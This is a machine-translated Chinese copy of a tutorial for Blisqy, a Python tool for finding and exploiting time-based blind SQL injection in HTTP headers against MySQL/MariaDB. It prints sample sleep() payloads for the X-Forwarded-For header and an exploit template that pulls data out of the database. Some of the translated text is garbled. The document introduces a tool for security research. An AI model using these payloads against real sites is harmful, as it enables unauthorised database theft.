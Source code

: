 # Blisqy:利用 HTTP 头中基于时间的盲 SQL 注入

> 原文：<https://kalilinuxtutorials.com/blisqy-sql-injection-http-headers/>

[![Blisqy : Exploit Time-Based Blind-SQL Injection In HTTP-Headers](img//fbaef9d3a0c7efce2ce11de7a9b048bf.png "Blisqy : Exploit Time-Based Blind-SQL Injection In HTTP-Headers")](https://1.bp.blogspot.com/-bcMN1ZSwQ3I/XRUIBM2g7aI/AAAAAAAABH4/j7v3KOjiycMFkWQ7OllBlVbD9tr5XYrmQCLcBGAs/s1600/Screenshot%25281%2529.png)

Blisqy 是一个工具，帮助网络安全研究人员在 HTTP 头上找到基于时间的盲 SQL 注入，并利用相同的漏洞。

该漏洞通过盲 SQL 注入对可打印的 ASCII 字符进行逐位运算，从数据库(目前仅支持 MySQL/MariaDB)中缓慢虹吸数据。

为了实现与其他 Python 工具的互操作性，并使其他用户能够利用 Blisqy 中提供的功能，此处的模块可以导入到其他基于 Python 的脚本中。

在测试基于时间的盲目 SQL 注入时，任何网络延迟或拥塞都会影响您的模糊化或利用的有效性。

为了补偿可能导致延迟的网络滞后和不确定性，Blisqy 时间比较是动态的，它在每次测试的运行时进行计算。

测试利用`greenlet`(轻量级协作调度执行单元)在`libevevent`循环之上提供一个高级同步 API。

它提供了一种在短时间内进行有效载荷测试的快速有效的方法，而且，一个特定的测试不应该影响另一个测试，因为它们不是在顺序方法中完全完成的。

它现在支持对 HTTP 头进行基于时间的盲目 SQL 注入的模糊化，并且为了可移植性，主要功能(模糊化和利用)被分离到独立的文件中。

**也可阅读-[Vulnx:一个智能 Bot 自动外壳注入器，可检测多种类型的 CMS 中的漏洞](https://kalilinuxtutorials.com/vulnx-vulnerabilities-cms/)**

**起毛起泡**

要使用模糊功能，请在 Python 脚本中导入以下模块，并提供一个目标和模糊数据，如下所示:

从 lib.blindfuzzer 导入 blindSeeker

目标参数应该是 Dictionary/JSON 格式，例如(*注意变量数据类型)*:

Server = ' 192 . 168 . 56 . 101 '
Port = 80
Index = 1
Method = ' GET '
header file = " fuzz-data/headers/default _ headers . txt "
injection file = " fuzz-data/payloads/MySQL _ time . txt "
target _ params = {
' Server ':Server，
'port': Port，【T8]' Index ':Index，
' header file ':头文件

一旦提供了目标参数，就调用 fuzzer，如下所示:

vulns = blind seeker(target _ params)
vulns . fuzz()

你可以检查这个例子提供的`FindBlindSpot.py`。

**样本模糊输出**

如果你成功了，你应该得到一份“注射”测试的报告。请注意，尽管 Blisqy 在测试时试图补偿网络延迟和拥塞，但在继续之前对报告的积极测试进行验证测试是很重要的。

下面是一个示例报告:

==================== [关键术语]= = = = = = = = = = = = = = = = =
Index =配置常数(延迟)
Base Index Record = Fuzzing 之前的服务器 Ping
Benching Record = Base Index Record+Index
Fuzzing Record =处理带有索引的请求所用的时间
= = = = = = = = = = = = = = = = = = = = = = = = = = = =[逻辑]= = = = = = = = = = = = = = = = = = = = = = = =
如果 Fuzzing Record 大于 Benching Record，【否则，视为负面。

[+]注入:X-Forwarded-For:'或 sleep(1)#

[+]表头:X-Forwarded-For

[*]索引记录:0.000160932540894 [* ]基准记录:1.00016093254
[*]模糊记录:9.01
[！]测试 436 是可注射的。
————————————————————————
[+]注入:X-Forwarded-For:'或 sleep(1)='
[+]表头:X-Forwarded-For

[*]指数记录:0.000378847122192 [* ]板凳记录:1.00037884712【T22]测试 438 是可注射的。
———————————————

**利用 Blisqy 开发**

找到潜在的基于时间的盲 SQL 注入后，您可以准备一个脚本来利用这个易受攻击的 Web 应用程序。

正如 fuzzer 一样，您可以在 Python 脚本中导入利用模块，并为利用操作定义一个模板。以下是如何在 Python 脚本中导入模块的示例:

from lib.blindexploit 导入查询

接下来，您需要提供您的目标的详细信息，以及利用它的目标参数。下面是利用模糊器发现的盲 sql 注入的示例实现:

目标数据应该采用 Dictionary/JSON 格式，指定服务器、端口、找到的易受攻击的头及其值(一些应用程序将需要或检查某个值)。另外*注意可变数据类型*。

target = {
' server ':' 192 . 168 . 56 . 101 '，
'port': 80，
' vulnHeader ':' X-Forwarded-For '，
'headerValue': 'fuzzer'
}

目标参数应该允许用户指定一些与开发偏好相关的选项。

target param = {
' sleep time ':0.1，
'payload': 'pass '，
'mysqlDig': 'yes '，
'interactive': 'on '，
'verbosity': 'high'
}

*   **sleepTime** 是有效载荷中使用的延迟
*   **有效负载**是使用自定义 SQL 查询(如`select @@hostname`)运行漏洞利用的选项。默认选项是`'pass'`。
*   **mysqlDig** 支持自动利用，并枚举模式中所有可用的表。
*   **交互**是一个选项，使用户能够与开发例程交互。当您想跳到数据库中感兴趣的部分时，这很方便。
*   **详细度**可以是高、中、低。这只是控制来自开发例程的输出信息。

在提供了目标及其参数之后，接下来要提供的是开发例程的模板。Blisqy 提供了一种方式，用户可以指定在哪里注入 exfiltration SQL 有效负载和`sleeptime`延迟。下面是上一小节提供的示例报告中一个已发现漏洞的实现示例。

在 X-Forwarded-For 标头上发现注入:

或睡眠(1)= '

本次特定注射的模板:

sqli = " "或 if((*sql*)，sleep(*time*)，0)和' 1'='1 "

在运行期间，`*sql*`将被替换为 SQL 注入有效载荷，`*time*`将被替换为睡眠延迟()。

一旦所有这些都完成了，最后一部分就是实例化开发例程，让`**MysqlDigger()**`方法完成工作。

**#创建实例** blind SQL = SQL engine(target，targetParam，sqli)

**#枚举 MySql 数据库** BlindSql。MysqlDigger()

您可以查看提供的这个示例的`ExploitBlindSpot.py`。

以下是一个利用操作的示例:

![](img//b1844ebc2dae615e6572693be4bce728.png)[**Download**](https://github.com/JohnTroony/Blisqy)